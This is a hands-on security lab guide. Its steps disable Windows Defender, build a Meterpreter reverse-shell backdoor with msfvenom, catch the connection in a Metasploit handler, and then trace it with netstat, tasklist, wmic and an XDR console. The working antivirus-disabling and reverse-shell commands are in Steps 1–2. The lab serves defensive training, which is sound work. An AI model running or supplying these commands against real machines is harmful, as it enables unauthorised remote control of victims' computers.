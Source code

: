 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default PowerShell window, run the following command to disable Defender. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali Linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:

```bash
ifconfig
```

![](attachments/warmup_03.png)

Mark the IP address of the Kali Linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`

`ls -l /tmp/beliveme.exe`

Copy the malware to the share folder accessible by the Victim machine
`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux

![](attachments/warmup_04.png)

Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

You should have similar output:

![](attachments/warmup_06.png)

### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```
![](attachments/warmup_07.png)

TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```
![](attachments/warmup_08.png)

**TIPP3:** List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

**TIPP4:** List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package

![](attachments/warmup_09.png)

If you look closer, you can find the connection (because we know what to look for) made by our supper evil "beliveme.exe" malware.

![](attachments/warmup_10.png)

List the network connections and look for fully qualified domains. We can get rid of them as very likely they are good ones.

```cmd
netstat -f
```

![](attachments/warmup_11.png)

We can see our connection to the system on port TCP/4444. Lets find the Process ID (PID).
The PID is 5496 (your number will be different!)

```cmd
netstat -naob
```

![](attachments/warmup_12.png)

Dig deeper. Use the "tasklist" command. We can see the loaded DLL's.

```cmd
tasklist /m /fi "pid eq 5496"
```

![](attachments/warmup_13.png)


Check "wmic" to see from where the file was launched. It was launched from the command line as there are no options.

```cmd
wmic process where processid=5496 get commandline
```

![](attachments/warmup_14.png)

We can also find the parent process ID.


```cmd
wmic process get name,parentprocessid, processid | find "5496"
```

![](attachments/warmup_15.png)

```cmd
wmic process get name,parentprocessid, processid | find "1256"
```

![](attachments/warmup_16.png)

### step 4

We can investigate the same with the opensource tools, like SecurityOnion and/or ElasticSearch


### step 5
You can investigate it with a commercial tools as well (e.g. Cisco XDR).
The XDR sees immediately the event and creates an incident.

![](attachments/warmup_30c.png)

Clicking on the incident, we get more details. Like, Vitim endpoint, Local IP, the IP the malware connected to, the file name and the hash of the malware

![](attachments/warmup_31c.png)


The malicious file was automatically sent for dynamic analysis (it's configurable)

![](attachments/warmup_32c.png)


Searching for the hash of the file (beliveme.exe) gives us more tech details. It show immediately , how many endpoints are affected in our organization.
Additionally, the behavior indicators describe, why the file was marked as malicious. 
- Metasploit Payload Detected 
- Artifact flagged as known trojan by Antivirus
- Possible backdoor behavior Detected
- Process uses private IP range for network traffic

![](attachments/warmup_33c.png)

As an analyst/investigator i can:
- Take a forensics snapshot of the memory
- Isolate the endpoint (or snapshot and isolate)
- Move to the Triage group (more logs, strict rules etc.)

![](attachments/warmup_34c.png)

Every stage of the Incident response can logged by the XDR:
- Identification with review, affected hosts, conformation
- Containment with Overview, assets, IPs, domains, URLs, hashes etc
- Eradication with vulnerability remediation, removing malicious content and system restore
- Recovery

![](attachments/warmup_35c.png)

It make sens to collect the netflow (NVZ flow) data at the process level. Not just the SRC/DST IPs and ports are visible, but muc more.
- which process initiated the flow?
- what is the process ID?
- what is the path of the process?
- what is the PID of the parent process?
- what is the parent process name?
- what is the hash of the process?
- How is logged in to the endpoint?

![](attachments/warmup_36c.png)

### step 5
